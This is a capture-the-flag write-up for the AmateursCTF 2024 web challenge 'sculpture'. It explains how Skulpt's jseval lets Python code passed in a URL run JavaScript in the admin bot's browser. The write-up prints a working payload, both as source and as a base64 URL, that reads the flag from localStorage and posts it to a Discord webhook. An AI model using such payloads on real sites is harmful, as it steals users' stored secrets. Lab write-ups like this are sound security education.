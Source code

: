 ```yaml
---
title: "sculpture"
description: "Client side rendered python turtle sculptures, why don't we play around with them."
points: 302
solves: 95
author: Jozef Steinhübl
date: April 11 2024
---
```


## Introduction

![task](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-web-sculpture.png)

We are given a web page with a python that is powered by [skulpt](https://skulpt.org/) and the source code of the admin bot that will visit our page with our code.

## Analysis

After digging into the source code of the admin bot and website, we can see that the admin bot contains a `flag` in `localStorage` and the website loads the code from the `?code=` parameter and runs it instantly.

The `?code=` parameter is in base64 encoded format, so we have to always encode our code first and then pass it into the URL.

## Solution

After some research in the [skulpt documentation](https://skulpt.org/) and [skulpt repository](https://github.com/skulpt/skulpt) I found in [test_skulpt_interop.py](https://github.com/skulpt/skulpt/blob/master/test/unit3/test_skulpt_interop.py#L6) that we can use `jseval` function to execute javascript code from our python code.

```python #5
"""Unit tests for zero-argument super() & related machinery."""

import unittest

window = jseval("Sk.global")
```

So we can use this function to get the `localStorage` and read the `flag`.

```python
flag = jseval("Sk.global.localStorage.getItem('flag')")
```

but how to get the flag from the admin bot? Easily, we can send the flag to whatever (e.g. discord webhook) and then read it from there.

```python
if __name__ == "__main__":
    flag = jseval("Sk.global.localStorage.getItem('flag')")
    print jseval("Sk.global.fetch('https://discord.com/api/webhooks/{WEBHOOK_ID}/{WEBHOOK_TOKEN}', {method:'POST',headers:{'Content-Type': 'application/json'}, body: JSON.stringify({'content':'"+flag+"'})})")
```

We have to encode the code into base64 and pass it into the admin bot.

```
https://amateurs-ctf-2024-sculpture-challenge.pages.dev/?code=aWYgX19uYW1lX18gPT0gIl9fbWFpbl9fIjoKICAgIGZsYWcgPSBqc2V2YWwoIlNrLmdsb2JhbC5sb2NhbFN0b3JhZ2UuZ2V0SXRlbSgnZmxhZycpIikKICAgIHByaW50IGpzZXZhbCgiU2suZ2xvYmFsLmZldGNoKCdodHRwczovL2Rpc2NvcmQuY29tL2FwaS93ZWJob29rcy97V0VCSE9PS19JRH0ve1dFQkhPT0tfVE9LRU59Jywge21ldGhvZDonUE9TVCcsaGVhZGVyczp7J0NvbnRlbnQtVHlwZSc6ICdhcHBsaWNhdGlvbi9qc29uJ30sIGJvZHk6IEpTT04uc3RyaW5naWZ5KHsnY29udGVudCc6JyIrZmxhZysiJ30pfSkiKQ==
```

![admin bot](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-web-sculpture-admin.png)

After a few seconds, we can see the flag in our discord channel:

![discord](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-web-sculpture-discord.png)

```
amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}
```